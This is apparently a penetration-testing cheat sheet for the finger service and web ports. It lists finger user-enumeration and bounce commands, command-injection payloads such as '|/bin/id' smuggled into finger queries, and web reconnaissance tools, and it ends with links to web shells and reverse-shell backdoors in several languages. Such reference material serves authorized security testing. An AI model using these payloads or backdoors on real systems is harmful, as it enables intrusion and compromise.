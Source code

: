 Finger Port 79 open

    User enumeration
        finger 'a b c d e f g h' @example.com
        finger admin@example.com
        finger user@example.com
        finger 0@example.com
        finger .@example.com
        finger **@example.com
        finger test@example.com
        finger @example.com
    Command execution
        finger "|/bin/id@example.com"
        finger "|/bin/ls -a /@example.com"
    Finger Bounce
        finger user@host@victim
        finger @internal@external

Web Ports 80, 8080 etc. open

    Fingerprint server
        Telnet ip_address port
        Firefox plugins
            All
                firecat
            Specific
                add n edit cookies
                asnumber
                header spy
                live http headers
                shazou
                web developer
    Crawl website
        lynx [options] startfile/URL Options include -traversal -crawl -dump -image_links -source
        httprint
        Metagoofil
            metagoofil.py -d [domain] -l [no. of] -f [type] -o results.html
    Web Directory enumeration
        Nikto
            nikto [-h target] [options]
        DirBuster
        Wikto
        Goolag Scanner
    Vulnerability Assessment
        Manual Tests
            Default Passwords
            Install Backdoors
                ASP
                    http://packetstormsecurity.org/UNIX/penetration/aspxshell.aspx.txt
                Assorted
                    http://michaeldaw.org/projects/web-backdoor-compilation/
                    http://open-labs.org/hacker_webkit02.tar.gz
                Perl
                    http://home.arcor.de/mschierlm/test/pmsh.pl
                    http://pentestmonkey.net/tools/perl-reverse-shell/
                    http://freeworld.thc.org/download.php?t=r&f=rwwwshell-2.0.pl.gz
                PHP
                    http://php.spb.ru/remview/
                    http://pentestmonkey.net/tools/php-reverse-shell/
                    http://pentestmonkey.net/tools/php-findsock-shell/
                Python
                    http://matahari.sourceforge.net/
                TCL
                    http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes
                Bash Connect Back Shell